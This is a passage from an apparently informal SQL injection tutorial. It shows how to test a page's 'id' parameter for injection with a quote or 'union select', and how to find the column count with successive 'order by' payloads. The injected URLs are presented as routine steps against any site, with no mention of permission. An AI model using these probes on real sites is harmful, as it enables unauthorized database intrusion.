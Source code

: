 Suppose, you got a site:
```
<?php 
site.com/article.php?id=5 
```
Now to check if it is vulnerable, you would simply add ' in the end i.e. where id variable is assigned.

So, it is:

```
<?php 
site.com/article.php?id=5' 
```
Now if the site is not vulnerable, it filters and the page loads normally.
But, if it doesn't filter the query string, it would give the error something like below:

`"MySQL Syntax Error By '5'' In Article.php on line 15."`

 or

error that says us to check the correct MySQL version or MySQL Fetch error or sometimes just blank page. The error may be in any form. So it makes us sure that the site is vulnerable.

Also just using ' may not be the sure test; so you may try different things like:
```
<?php 
site.com/article.php?id=5+union+select+1--  
```

If you get error with this, you again come to know that its vulnerable... Just try different things..

#### 0x05.b ~ Find the number of columns

So, now its time to find the number of columns present. For this purpose, we will be using 'order by' until we get error.

That is, we make our URL query as:
```
<?php 
site.com/article.php?id=5+order+by+1/*  
```
This didn't give error.

Now, I do increase it to 2:
```
<?php 
site.com/article.php?id=5+order+by+2/*  
```
Still no error

So, we need to increase until we get the error.

In my example, I got error when I put the value 3 i.e:
```
<?php 
site.com/article.php?id=5+order+by+3/*  
```
This gave me error.
